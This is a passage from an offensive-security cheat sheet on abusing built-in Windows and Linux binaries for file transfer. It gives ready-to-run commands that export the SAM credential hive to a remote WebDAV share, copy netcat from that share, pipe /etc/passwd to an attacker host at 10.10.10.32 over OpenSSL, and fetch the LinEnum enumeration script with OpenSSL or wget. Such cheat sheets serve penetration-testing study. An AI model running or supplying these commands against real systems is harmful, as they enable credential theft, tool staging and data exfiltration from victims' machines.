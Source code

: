 ### Reg.exe

**Description:** Registry editor that can save/export files.

**Export Registry to Remote:**
```cmd
reg export HKLM\SAM \\webdavserver\folder\SAM
```

### Xcopy.exe

**Description:** Extended copy utility.

**Download File:**
```cmd
xcopy \\webdavserver\webdav\nc.exe c:\ADS\nc.exe
```

## Linux Living off The Land Binaries (GTFOBins)

### OpenSSL

**Description:** Cryptographic toolkit that can create SSL connections for file transfer.

**Setup SSL Server (Attack Host):**
```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Start SSL server
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

**Download File (Target Host):**
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

**Upload File via SSL:**
```bash
# Target sends file
cat /etc/passwd | openssl s_client -quiet -connect 10.10.10.32:443

# Attack host receives
openssl s_server -quiet -accept 443 -cert certificate.pem -key key.pem > received_passwd
```

### Wget

**Description:** Web file downloader (if available).

**Download File:**
```bash
wget http://10.10.10.32:8000/LinEnum.sh
```

